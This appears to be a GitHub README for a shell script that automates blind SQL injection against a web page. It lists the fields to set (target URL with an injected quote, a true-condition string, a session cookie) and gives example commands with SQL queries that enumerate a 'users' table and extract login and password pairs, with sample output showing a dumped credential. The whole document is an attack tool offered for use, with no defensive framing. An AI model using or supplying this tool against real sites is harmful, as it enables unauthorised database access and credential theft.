

# blind_sqli
This basic script can be used to automate the process of exploiting blind SQL Injection to dump data

### Note: Change the following fields

1. URL="http://host.com/vuln.php?id=1'"
2. TRUESTRING="the output/partial output when condition is true"
3. Cookie="name:value"

### To run this file basic syntax is as follows:

`sqli_script.sh <expected size of output> "<sql query>"`
Example:

`./sqli_script.sh 20 "select column_name from information_schema.columns where table_name='users' limit 1,1`

### output:

extracting results for select column_name from information_schema.columns where table_name='users' limit 1,1

Result: login

`./sqli_script.sh 20 "select concat(login,'---',password) from users limit 0,1"`

### output:

extracting results for select concat(login,'---',password) from users limit 0,1

Result: A.I.M.---6885858486f

